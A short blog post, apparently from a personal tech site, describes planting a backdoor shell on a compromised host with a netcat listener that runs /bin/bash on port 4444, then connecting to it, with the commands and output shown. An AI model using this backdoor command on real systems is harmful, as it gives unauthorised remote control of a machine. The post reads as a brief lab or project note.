 ```yaml
---
title: "Remote bash shell using netcat"
date: 2020-12-15T16:20:51-06:00
toc: false
images:
categories:
  - tech
tags: 
  - security
  - nc
  - remoteshell
---
```


# Overview

In a recent project, I was asked to compromise and install a backdoor shell by exploiting a flaw in the package management system.  To keep it simple, I chose `nc` (netcat) as the conduit to make the connection and execute `/bin/bash` on the remote host.  


# Details 

On the remote system, I deployed a `nc` listener waiting for a connection on TCP port 4444.  When a connection is made, `nc` executes `/bin/bash`:

```
jemurray@home-server:~$ nc.traditional -lv -s 192.168.86.5 -p 4444 -e /bin/bash
listening on [192.168.86.5] 4444 ...
```

On the remote system, execute the `nc` client to connect to port 4444.  No shell prompt is returned, but any command sent is executed in the `/bin/bash` shell:

```
jemurray@mbp-2019:~ $ nc 192.168.86.5 4444
hostname
home-server
uptime
 16:22:59 up 74 days, 23:08,  9 users,  load average: 1.04, 1.07, 1.02
```


In the next few months I will produce a full write up, stay tuned.